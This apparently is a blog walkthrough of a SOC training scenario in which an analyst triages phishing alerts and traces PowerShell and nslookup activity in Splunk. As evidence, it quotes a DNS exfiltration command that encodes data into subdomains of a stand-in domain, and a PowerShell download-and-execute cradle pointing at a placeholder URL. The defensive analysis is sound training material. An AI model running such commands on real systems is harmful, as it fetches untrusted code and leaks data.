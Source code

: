 ```yaml
---
layout: single
title: "Phishing Unfolding"
excerpt: "Dive into the heat of a live phishing attack as it unfolds within the corporate network."
date: 2024-12-28
classes: wide
header:
  teaser: /blog/assets/images/phishing-alert/phishing-detection.png
  teaser_home_page: true
  icon: /blog/assets/images/cybersecurity-alert.webp
categories:
  - Incident Response
---
```


**Scenario Details**

**Description**  
Dive into the heat of a live phishing attack as it unfolds within the corporate network. In this high-pressure scenario, your role is to meticulously analyze and document each phase of the breach as it happens. Can you piece together the attack chain in real-time and prepare a comprehensive report on the malicious activities?

---

**Scenario Objectives**  
- Monitor and analyze real-time alerts as the attack unfolds.  
- Identify and document critical events such as PowerShell executions, reverse shell connections, and suspicious DNS requests.  
- Create detailed case reports based on your observations to help the team understand the full scope of the breach.

---

**Access the Alert Queue**

1. Navigate to the SOC Dashboard
![](../assets/images/phishing-unfolding/1.png)

2. Open the alert queue and review the real-time alerts generated by the system.
![](../assets/images/phishing-unfolding/2.png)

The Alert Queue is a workspace for SOC analysts to manage and investigate security alerts. It provides a streamlined way to assess the urgency of alerts, pick them up for investigation, and document findings.

---

**Key Components in the Alert Queue**

1. **Assigned Alerts Section**  
   - Displays alerts assigned to you for tracking and investigation.

2. **Alert List**  
   - Lists alerts needing action, including:
     - **ID:** Unique identifier (e.g., 1033, 1032).
     - **Alert Rule:** Description of what triggered the alert.
     - **Severity:** Medium (requires attention) or Low (can be deprioritized).
     - **Type:** Execution (process-related activity), Phishing (email-related activity), or Process (suspicious behavior).
     - **Date:** Timestamp of alert generation.
     - **Status:** Current state (e.g., Awaiting Action).
     - **Action Button:** Click to take ownership of an alert.

3. **Filters**  
   - Organize alerts by:
     - Severity: High, Medium, Low.
     - Type: Phishing, Execution, Process.
     - Status: Pending, Resolved, Under Investigation.

4. **Search Bar**  
   - Locate specific alerts using keywords, IDs, or rules.
![](../assets/images/phishing-unfolding/3.png)

![](../assets/images/phishing-unfolding/4.png)

---

**Identifying Critical Alerts**

- The alert queue displays multiple **High severity** alerts for **"Suspicious Parent-Child Relationship"**, classified as **Process type**.
- These alerts indicate potential malware activity, privilege escalation, or unauthorized access.
![](../assets/images/phishing-unfolding/5.png)

---

**Investigate Alerts**

1. **Take Ownership of Alerts**
   - Click the "Action" button to assign the alert to yourself.
   ![](../assets/images/phishing-unfolding/6.png)

   - Example: Assigned alert ID 1049 (High Severity, Process-related, "Suspicious Parent-Child Relationship").
   ![](../assets/images/phishing-unfolding/7.png)


2. **Analyze Alert ID 1049**
   - **Datasource:** Sysmon  
   - **Timestamp:** 28/12/2024 11:47:56.301  
   - **Event Code:** 1 (Process Creation)  
   - **Host Name:** win-3450  
   - **Process Name:** nslookup.exe  
   - **Parent Process Name:** powershell.exe  
   - **Command Line:**  
     ```
     "C:\Windows\system32\nslookup.exe" RmJjEyNGZiMTY1NjZlFQ==.haz4rdw4re.io
     ```
   - **Working Directory:** C:\Users\michael.ascot\downloads\
---

**Initial Observations**

- **PowerShell (Parent Process)**: Frequently exploited by attackers for executing scripts and downloading payloads.
- **nslookup.exe (Child Process)**: Used for DNS queries, but its execution in this context is unusual and likely malicious.
- **Encoded String in Command Line**: Needs decoding to uncover possible exfiltrated data.
- **Suspicious Working Directory**: Files originating from the Downloads folder suggest unauthorized activity.
  ![](../assets/images/phishing-unfolding/8.png)

  ![](../assets/images/phishing-unfolding/9.png)

---

**Investigate Further Using SIEM (Splunk)**

1. **Search for Related Events in Splunk:**

   index=* nslookup.exe
  ![](../assets/images/phishing-unfolding/10.png)

  ![](../assets/images/phishing-unfolding/11.png)

   - **Observations:**
     - Repeated execution of nslookup.exe.
     - Suspicious domain (haz4rdw4re.io).
     - Base64-encoded strings hinting at data exfiltration or Command and Control (C2) communication.
    ![](../assets/images/phishing-unfolding/12.png)

    ![](../assets/images/phishing-unfolding/13.png)

2. **Analyze Parent Process (PowerShell):**

   index=* process.parent.pid=3728
    ![](../assets/images/phishing-unfolding/14.png)

    ![](../assets/images/phishing-unfolding/15.png)

   - Confirmed multiple child processes initiated by PowerShell, indicating possible malicious automation.
    ![](../assets/images/phishing-unfolding/16.png)


3. **Investigate PowerShell Activity:**
   
   index=* powershell.exe
    ![](../assets/images/phishing-unfolding/17.png)

   - Found execution of a command downloading a suspicious script:
     
     IEX(New-Object System.Net.WebClient).DownloadString("http://malicious-url/script.ps1")
     
   - **Unusual Execution Pattern:** Attackers often leverage PowerShell for covert actions.

---

**Summary of Events**

- **PowerShell spawned multiple instances of nslookup.exe, likely for C2 communication.**
- **Each execution involved encoded data and a suspicious domain (haz4rdw4re.io).**
- **Execution originated from an ‘exfiltration’ directory, suggesting data theft.**
- **PowerShell executed a potentially malicious script, indicating a larger attack chain.**
- **Patterns suggest lateral movement, reconnaissance, or exfiltration.**
    ![](../assets/images/phishing-unfolding/18.png)
    
    ![](../assets/images/phishing-unfolding/19.png)


---

**Next Steps**

- **Decode Base64 Strings**: To analyze potential payloads or exfiltrated data.
- **Correlate Logs Across Systems**: Check endpoint logs for related events.
- **Identify Attacker Techniques**: Map findings to MITRE ATT&CK framework.
- **Contain and Mitigate**: Block malicious domains and isolate the affected host.

---

**Conclusion**

This investigation demonstrates how attackers use legitimate tools like PowerShell and nslookup.exe for malicious purposes. By analyzing real-time alerts and logs, SOC analysts can detect and mitigate threats before they escalate into a full-blown breach.

